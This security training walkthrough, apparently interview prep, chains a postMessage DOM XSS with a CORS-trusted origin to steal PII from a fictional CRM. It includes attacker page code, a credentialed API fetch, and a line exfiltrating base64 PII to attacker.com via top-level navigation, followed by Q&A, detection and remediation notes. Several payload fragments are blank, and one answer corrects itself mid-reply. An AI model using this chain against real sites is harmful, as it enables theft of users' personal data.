

# Web Ultra 05 - Chaining DOM XSS with CORS Misconfigs for Mass Data Exfiltration

## 1. Scenario Briefing

**Context:**
You are analyzing an enterprise Customer Relationship Management (CRM) platform. The architecture is a decoupled Single Page Application (SPA) built with Vue.js, hosted on `app.crm-target.com`. The application fetches sensitive PII data via a REST API hosted at `api.crm-target.com`.
Authentication is managed via HTTP-Only session cookies scoped to `.crm-target.com`.
The frontend utilizes HTML5 `postMessage` heavily for cross-origin communication with a legacy internal analytics iframe hosted on `analytics.crm-target.com`.

**The Goal:**
Achieve Remote Data Exfiltration of the victim's private PII from the `api.crm-target.com` endpoint without any user interaction beyond visiting an attacker-controlled website.

**The Catch:**
The `api.crm-target.com` is protected by Cross-Origin Resource Sharing (CORS) rules. It does not allow `Access-Control-Allow-Origin: *`.
There is no Reflected or Stored XSS. The only flaw is a DOM XSS deep within a `postMessage` event listener on `app.crm-target.com`. Furthermore, a strict Content Security Policy (CSP) is enabled: `default-src 'self'; script-src 'self'; connect-src 'self' api.crm-target.com;`.

---

## 2. Architecture & Attack Surface



*   **Vulnerability 1:** DOM XSS via `postMessage` source to `innerHTML` sink.
*   **Vulnerability 2:** Exploitation of the API's CORS configuration (trusting the compromised origin).
*   **Vulnerability 3:** Bypassing the strict CSP to successfully exfiltrate the stolen PII back to the attacker.

---

## 3. Attack Path & Exploitation Physics

### Phase 1: Identifying the postMessage DOM XSS
Reviewing the `app.crm-target.com` JavaScript, we find a global message listener intended to receive configuration updates from the analytics iframe:

```javascript
window.addEventListener('message', function(event) {
    // Weak validation: Only checks if origin ends with target domain
    if (!event.origin.endsWith('crm-target.com')) return;
    
    let data = JSON.parse(event.data);
    if (data.action === 'updateDashboard') {
        document.getElementById('dashboard-widget').innerHTML = data.htmlContent;
    }
});
```

**The Vulnerability:**
The validation `endsWith('crm-target.com')` is critically flawed. An attacker can register a domain like `attacker-crm-target.com` and bypass this check.
The sink is `innerHTML`, allowing execution of arbitrary JavaScript.

### Phase 2: Crafting the DOM XSS Exploit
We host a malicious page on `http://attacker-crm-target.com`. When the victim visits, our page opens a popup to the target app and sends the malicious postMessage.

```html
<!-- Hosted on attacker-crm-target.com -->
<script>
    let target = window.open('https://app.crm-target.com/dashboard');
    setTimeout(() => {
        let payload = {
            action: 'updateDashboard',
            htmlContent: ''
        };
        target.postMessage(JSON.stringify(payload), '*');
    }, 2000);
</script>
```
*Note:* We use `` because `innerHTML` does not execute standard `<script>` tags injected dynamically.

### Phase 3: Accessing the API (CORS Bypass via XSS Pivot)
If we were to make a Fetch request directly from `attacker.com` to `api.crm-target.com`, the browser would issue a preflight `OPTIONS` request. The API would return CORS headers indicating that `attacker.com` is not allowed, and the browser would block the response.
However, because our XSS payload is executing *within the context* of `app.crm-target.com`, the browser attaches the victim's HTTP-Only cookies, and the Origin header is naturally `https://app.crm-target.com`. The API trusts this origin and serves the PII data.

**The XSS Payload fetching data:**
```javascript
function fetchData() {
    fetch('https://api.crm-target.com/v1/user/pii', {credentials: 'include'})
    .then(r => r.json())
    .then(data => exfiltrate(data));
}
```

### Phase 4: Bypassing CSP for Exfiltration
The CSP is `connect-src 'self' api.crm-target.com;`. We cannot `fetch()` or `XHR` the data back to `attacker.com`. We cannot create an `` tag pointing to `attacker.com` because `default-src` defaults to `'self'`.

**The Bypass:**
We must find a way to leak data without violating CSP.
*Technique: Open Redirect on the Target.*
Assume we found a simple open redirect endpoint on the API: `https://api.crm-target.com/redirect?url=...`
Since `api.crm-target.com` is in the allowed `connect-src` and `default-src` list, we can navigate the browser or submit data through this trusted domain, which then redirects to us.

Alternatively, if strict CSP is present, we can use **DNS prefetching** or **location.href**.
Modifying `window.location.href = 'https://attacker.com/?data=' + btoa(JSON.stringify(data));`
CSP `connect-src` does not restrict top-level navigation (`window.location`). The browser will navigate the victim away from the SPA, appending the base64 encoded PII to the URL, successfully exfiltrating the data to the attacker's server logs.

---

## 4. The Interviewer's Gauntlet (Q&A)

### Q1: "Why exactly does `innerHTML` refuse to execute a standard `<script>alert(1)</script>` tag, and why do we use `` or `<iframe>` with event handlers instead?"
**Expert Answer:**
"This is a deliberate security mechanism specified in the HTML5 standard. When the browser's DOM parsing engine inserts content via the `innerHTML` property, it parses `<script>` tags and inserts them into the DOM tree, but it explicitly marks them as 'unexecutable'. It will not invoke the JavaScript engine for them.
However, it *does* evaluate attributes like `src` or `onload`/`onerror` on other tags like ``, `<svg>`, or `<iframe>`. When we inject ``, the browser parses the image, fails to load the resource 'x', and fires the `onerror` event, which executes our JavaScript without relying on a `<script>` tag."

### Q2: "You bypassed the origin check `endsWith('crm-target.com')` using a custom domain. How would you bypass a check that uses `indexOf('crm-target.com') !== -1`?"
**Expert Answer:**
"The `indexOf` check is even weaker. It simply verifies if the string exists anywhere in the Origin header. I wouldn't even need to register a custom domain. I could host my payload on a completely arbitrary domain and just append the target domain as a query parameter or path, if the browser allows it. Wait, the browser sets the Origin header automatically to the scheme, host, and port (e.g., `https://attacker.com`). We cannot modify the Origin header.
Therefore, if we don't control the Origin domain string, we *must* register a domain like `attacker.com-crm-target.com` or `crm-target.com.attacker.com` to pass the `indexOf` check. The string must exist in the Host portion of the Origin."

### Q3: "What happens if the API implements `Access-Control-Allow-Origin: null`? Doesn't that block all origins?"
**Expert Answer:**
"Actually, `Access-Control-Allow-Origin: null` is notoriously dangerous. The `null` origin is a special, unique origin used by the browser in specific contexts, such as an iframe loaded with the `data:` URI scheme or a sandboxed iframe (`<iframe sandbox>`).
If an attacker embeds the vulnerable application in a sandboxed iframe without the `allow-same-origin` attribute, the browser sends the request with the `Origin: null` header. If the server is misconfigured to reflect or accept `null`, the CORS check passes. The attacker can then extract the data across the iframe boundary."

### Q4: "Explain the CORS Preflight request (`OPTIONS`). Why does the browser send it, and can an attacker bypass it by spoofing the Origin header in the Fetch request?"
**Expert Answer:**
"The Preflight request is a mechanism to protect legacy servers that don't understand CORS from receiving 'complex' cross-origin requests (like `application/json`, or methods like `DELETE`/`PUT`). The browser asks the server 'Is this Origin allowed to send this type of request?' via an HTTP `OPTIONS` request.
An attacker *cannot* spoof the Origin header in a browser using `fetch()` or `XMLHttpRequest`. The `Origin` header is a 'forbidden header name'; the browser's networking stack controls it exclusively. The only way to bypass CORS in the browser is to either find a CORS misconfiguration on the server (reflecting origins), exploit an XSS vulnerability to execute the request from a trusted origin context, or use a proxy outside the browser (which wouldn't have the victim's session cookies)."

### Q5: "If the application used `localStorage` for authentication tokens instead of HttpOnly cookies, how does that change your attack?"
**Expert Answer:**
"It actually makes the attack significantly easier and more severe. HttpOnly cookies cannot be read by JavaScript. We had to force the victim's browser to make the API request for us (a pivot).
If the token is in `localStorage`, our DOM XSS payload can simply execute `let token = localStorage.getItem('auth_token');` and exfiltrate the token directly. Once we have the token, we don't need the victim's browser anymore. We can make requests to the API from our own terminal, entirely bypassing CORS, CSP, and the browser's security model altogether."

---

## 5. The Physics of the Exploit: Browser Origin Model
The Same-Origin Policy (SOP) is the fundamental security model of the web. An origin is defined by the tuple `(Scheme, Host, Port)`.
When `app.crm-target.com` makes an XHR request to `api.crm-target.com`, they are cross-origin because the hosts differ. The SOP normally prevents `app` from reading the response from `api`.
CORS relaxes this. The `api` server responds with `Access-Control-Allow-Origin: https://app.crm-target.com` and `Access-Control-Allow-Credentials: true`.
By finding an XSS on `app`, the attacker essentially "becomes" the `app` origin. The browser enforces the attacker's malicious script with the privileges of `app`. The network traffic looks completely legitimate to the API server because the Origin, Referer, and Cookies all belong to the valid, trusted frontend application.

---

## 6. Defensive Telemetry & Incident Response

### Identifying the Attack in Logs
- **Unusual Referers / Navigation:** CSP violation reports (if `report-uri` is configured) will flag the attempt to navigate `window.location` or `fetch()` to an unauthorized domain.
- **API Access Patterns:** Rapid, sequential API requests fetching massive amounts of PII originating from a single user session, especially if the user agent matches a headless browser or automated script handling the exploit window.

### Remediation Strategies
1.  **Secure postMessage:** Never use `endsWith`, `startsWith`, or `indexOf` for Origin validation. Use strict equality: `if (event.origin !== "https://analytics.crm-target.com") return;`.
2.  **Safe Sinks:** Replace `innerHTML` with `textContent` or `innerText`. If HTML must be rendered, run it through a strict sanitization library like DOMPurify before insertion.
3.  **Tighten CSP:** A strong CSP prevents both XSS and exfiltration. `script-src 'self' 'nonce-...'` blocks injected inline scripts. Ensure `connect-src` is strictly limited, and restrict top-level navigation using the `navigate-to` CSP directive (though support is limited, it is a powerful future defense).
